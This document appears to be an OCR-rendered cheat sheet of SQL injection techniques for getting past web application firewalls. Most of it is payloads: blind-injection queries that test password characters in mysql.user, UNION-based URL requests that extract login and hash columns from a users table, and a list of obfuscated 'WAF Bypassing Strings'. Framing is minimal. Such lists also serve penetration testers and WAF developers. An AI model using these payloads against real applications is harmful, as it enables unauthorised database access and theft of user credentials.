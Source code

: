 select user from mysql.user where user = 'user' OR
mid(password,1,1)=0x2a
select user from mysql.user where user = 'user' OR
mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1)
regexp '\[\*\]'
select user from mysql.user where user = 'user' OR mid(password,1,1)
like '\*'
select user from mysql.user where user = 'user' OR mid(password,1,1)
rlike '\[\*\]'
select user from mysql.user where user = 'user' OR
ord(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
ascii(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
find_in_set('2a',hex(mid(password,1,1)))=1
select user from mysql.user where user = 'user' OR position(0x2a in
password)=1
select user from mysql.user where user = 'user' OR
locate(0x2a,password)=1
<b>Known:
</b> substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70
mid((select 'password'),1,1) = 0x70
<b>New:</b>
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
STRCMP(expr1,expr2) returns 0 if the strings are the same, -1 if the
first , argument is smaller than the second one, and 1 otherwise.

<b>An example of signature bypass.</b>
The following request gets to WAF signature
/?id=1+union+(select+1,2+from+users) But sometimes, the signatures used
can be bypassed
/?id=1+union+(select+'xz'from+xxx)

`/?id=(1)union(select(1),mid(hash,1,32)from(users))`
`/?id=1+union+(select'1',concat(login,hash)from+users)`
`/?id=(1)union(((((((select(1),hex(hash)from(users))))))))`
`/?id=(1)or(0x50=0x50)`


<b>An SQL Injection attack can successfully bypass the WAF , and be
conducted in all following cases:</b>
• Vulnerabilities in the functions of WAF request normalization.
• Application of HPP and HPF techniques.
• Bypassing filter rules (signatures).
• Vulnerability exploitation by the method of blind SQL Injection.
• Attacking the application operating logics (and/or)

<b>WAF Bypassing Strings.</b>

` /*!%55NiOn*/ /*!%53eLEct*/`
`  %55nion(%53elect 1,2,3)-- -`
`  +union+distinct+select+`
`  +union+distinctROW+select+`
`  /**//*!12345UNION SELECT*//**/`
`  concat(0x223e,@@version)`
`  concat(0x273e27,version(),0x3c212d2d)`
`  concat(0x223e3c62723e,version(),0x3c696d67207372633d22)`
`  concat(0x223e,@@version,0x3c696d67207372633d22)`
`  concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)`
`  concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)`
`  concat(‘’,@@version,’’)`
`  /**//*!50000UNION SELECT*//**/`